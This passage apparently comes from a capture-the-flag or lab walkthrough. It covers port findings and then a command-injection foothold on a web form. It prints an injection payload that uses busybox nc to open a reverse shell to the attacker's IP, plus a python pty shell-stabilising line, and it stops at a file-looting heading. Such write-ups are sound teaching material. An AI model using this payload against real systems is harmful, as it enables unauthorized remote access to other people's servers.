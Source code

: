 This reveals:

- **Port 80** is running Apache (suggesting a web server is hosted)
    
- **Port 22** is running OpenSSH
    

---

###  Step 3: Web Exploitation – Gaining Foothold

Navigating to the website reveals a form input vulnerable to **command injection**. By injecting a command like:

```bash
;busybox nc 192.168.112.156 9999 -c sh
```

![pasted](./Pasted_image_20250503150445.png)

We trigger a reverse shell connection to our attacker machine. Boom — we get a shell back as **www-data**, the web server user.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
to stabilize the shell session for better interactivity and command execution

![pasted](./Pasted_image_20250507222054.png)


---

###  Step 4: File Looting – Extracting User Data
